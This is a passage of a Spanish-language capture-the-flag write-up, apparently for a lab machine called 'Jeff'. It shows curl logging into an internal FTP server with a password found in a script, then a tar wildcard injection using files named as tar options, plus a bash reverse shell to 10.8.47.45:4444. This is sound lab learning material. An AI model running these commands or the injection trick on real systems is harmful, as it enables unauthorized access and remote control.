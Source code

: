 Este script de php se esta loguenado al servicio ftp de la ip 172.20.0.1 que es la ip de la maquina real en la cual se desplegaron los contenedores desde nuestra maquina no tenemos acceso a este puerto por lo que podemos hacer la enumeracion de este servicio desde este contenedor usando curl.
```bash
www-data@Jeff:/var/www/html$ curl -s -v -P- 'ftp://backupmgr:SuperS1ckP4ssw0rd123!@172.20.0.1/'
* Expire in 0 ms for 6 (transfer 0x5622b3d5ef50)
*   Trying 172.20.0.1...
* TCP_NODELAY set
* Expire in 200 ms for 4 (transfer 0x5622b3d5ef50)
* Connected to 172.20.0.1 (172.20.0.1) port 21 (#0)
< 220 Welcome to Jeff's FTP service.
> USER backupmgr
< 331 Please specify the password.
> PASS SuperS1ckP4ssw0rd123!
< 230 Login successful.
> PWD
< 257 "/" is the current directory
* Entry path is '/'
> EPRT |1|172.20.0.6|34887|
* ftp_perform ends with SECONDARY: 1
< 200 EPRT command successful. Consider using EPSV.
* Connect data stream actively
> TYPE A
< 200 Switching to ASCII mode.
> LIST
< 150 Here comes the directory listing.
* Maxdownload = -1
* Preparing for accepting server on data port
* Checking for server connect
* Ready to accept data connection from server
* Connection accepted from server
drwxr-xr-x    2 1001     1001         4096 May 18  2020 files
* Remembering we are in dir ""
< 226 Directory send OK.
* Connection #0 to host 172.20.0.1 left intact
www-data@Jeff:/var/www/html$ 
```
Vemos un directorio files, bueno en esta parte tarde un par de horas intentando descubrir cual era el vector de ataque, pero al final uno funciono.

El directorio files del servicio ftp es un directorio donde se crean backups de los archivos, bueno si se esta usando tar por detras podemos inyectar parametros para hacer que ejecute un archivo, para podemos ir a [Gtfobins](https://gtfobins.github.io/gtfobins/tar/#shell) y ver cuales son los parametros que tenemos que agregar, tenemos que crear 3 archivos dos archivos van con los parametros y el otro va con el archivo que queremos que ejecute.

```bash
www-data@Jeff:/tmp/priv$ echo '' > --checkpoint=1
www-data@Jeff:/tmp/priv$ echo '' > "--checkpoint-action=exec=sh rev"
```
Creamos el archivo rev
```bash
www-data@Jeff:/tmp/priv$ cat rev 
#!/bin/bash

bash -c "bash -i >& /dev/tcp/10.8.47.45/4444 0>&1"
```
Estos 3 archivos los tenemos que subir al servidor ftp para esto voy a usar curl, el parametro -T es para indicarle el archivo que deseamos subir.

